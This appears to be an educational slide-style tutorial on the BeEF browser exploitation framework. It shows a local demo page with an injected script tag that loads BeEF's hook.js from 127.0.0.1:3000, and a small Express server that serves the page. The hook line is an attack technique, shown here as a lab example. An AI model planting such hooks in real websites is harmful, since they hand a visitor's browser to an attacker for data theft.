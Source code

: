 
# BeEF's Network Graph.

- BeEF can show you a map of how it is hooked into the browser.

<img src="https://i.imgur.com/34JiPK4.png" width="550"/>

---

# BeEF's Commands

- BeEF has various command to attack or steal data from the victim.
- The commands working may depend on exploits that have been solved in modern browsers.

<img src="https://i.imgur.com/ZJIqAvi.png" width="150"/>

---

# Vulnerable Website Example

- I've created the following simple website with the hook script in it, and served it using Node.js:
```html
<!DOCTYPE html>
<html>
<head>
  <!-- Notice the script injected here -->
  <script src="http://127.0.0.1:3000/hook.js"></script>
  <title>HACKING TIME</title>
</head>
<body>
  <h1>im bad!</h1>
</body>
</html>
```

```js
const express = require("express");
const app = express();
const path = require("path");
app.get("/", (req, res) => {
  res.sendFile(path.join(__dirname, "/index.html"));
});
app.listen(9000, () => {
  console.log("started on 9000");
});

```

---
